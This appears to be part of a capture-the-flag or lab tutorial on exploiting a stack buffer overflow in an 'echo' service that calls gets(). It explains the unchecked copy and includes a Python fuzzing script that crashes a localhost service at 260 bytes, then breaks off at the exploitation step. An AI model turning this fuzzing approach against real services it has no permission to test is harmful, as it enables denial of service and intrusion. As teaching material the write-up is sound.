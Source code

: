 The gets() function reads input from the user and stores that input in the buffer provided as an argument. The important part to note is that the gets() function does not check the length of the input provided by the user or the destination buffer into which the input is copied. This means that, if the user provides input that exceeds the size of the destination buffer, it will overflow into the adjoining area of memory and overwrite the functions return address.

### Fuzzing

The process of fuzzing involves repeatedly running the program with different input in order to identify any bugs that may be triggered by unexpected data.

From static analysis we can guess that the program will crash with an input greater than 256 bytes, but this value may differ depending on how much stack space the compiler allowed. We can use fuzzing to determine exactly how many bytes we need to input to break the application. We can fuzz the remote 'echo' application with a simple bit of python:

```python
#!/usr/bin/env python2

import socket
import sys
import time

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 7))

data = "A" * 10

for i in range(1, 100):
    sys.stdout.write('.')
    sys.stdout.flush()
    try:
        sock.send(data * i + '\n')
        rdata = sock.recv(1024)
        if len(rdata) == 0:
            raise socket.error;
    except socket.error:
        print "Socket closed after sending {0} bytes".format(i*10)
        break
    time.sleep(0.01)
```

Running the script tells us that the process crashed after receiving 260 bytes of input (note that this WILL be different to the version of the binary included in this repo):

```
root@kali:~# ./fuzz.py 
......................................
Socket closed after sending 260 bytes
```

## Step 2 - Exploiting

Now we can move on to exploiting a local copy of the application before going back to the challenge server (or your local server if that's where it's running). There are three things we need in order to successfully exploit the `echo` application:
